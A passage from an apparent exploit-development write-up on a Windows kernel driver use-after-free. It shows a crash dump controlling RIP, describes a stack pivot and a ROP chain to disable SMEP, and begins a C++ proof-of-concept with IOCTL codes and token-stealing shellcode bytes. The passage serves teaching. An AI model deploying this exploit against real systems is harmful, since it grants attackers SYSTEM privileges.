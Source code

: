 Running the updated PoC shows that this indeed works and places `0xdeadc0de` in RIP:

```
Access violation - code c0000005 (!!! second chance !!!)
00000000`deadc0de ??              ???
```

At this point exploiting the vulnerability is exactly the same process as in the last post about the type-confusion vulnerability. We pivot the stack to a location we control and make sure it’s paged in. Then we use ROP to disable SMEP & jump to our shellcode. For details about how to do this please refer to the last post – we use exactly the same gadgets & shellcode. The updated PoC looks as follows:

```cpp
#include <stdio.h>
#include <Windows.h>
#include <vector>
#include <winternl.h>
#include <Psapi.h>

#define QWORD ULONGLONG

#define ALLOCATE_UAF_IOCTL 0x222013
#define FREE_UAF_IOCTL 0x22201B
#define USE_UAF_IOCTL 0x222017
#define FAKE_OBJECT_IOCTL 0x22201F

BYTE sc[256] = {
  0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48,
  0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xc0, 0x4d,
  0x8b, 0x80, 0x48, 0x04, 0x00, 0x00, 0x49, 0x81, 0xe8, 0x48,
  0x04, 0x00, 0x00, 0x4d, 0x8b, 0x88, 0x40, 0x04, 0x00, 0x00,
  0x49, 0x83, 0xf9, 0x04, 0x75, 0xe5, 0x49, 0x8b, 0x88, 0xb8,
  0x04, 0x00, 0x00, 0x80, 0xe1, 0xf0, 0x48, 0x89, 0x88, 0xb8,
  0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01,
  0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x66,
  0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x48,
  0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x8a, 0x68,
  0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78, 0x01, 0x00, 0x00,
  0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8b, 0xaa,
  0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f, 0x01, 0xf8, 0x48,
  0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};

void Error(const char* name) {
    printf("%s Error: %d\n", name, GetLastError());
    exit(-1);
}

typedef struct PipeHandles {
    HANDLE read;
    HANDLE write;
} PipeHandles;
```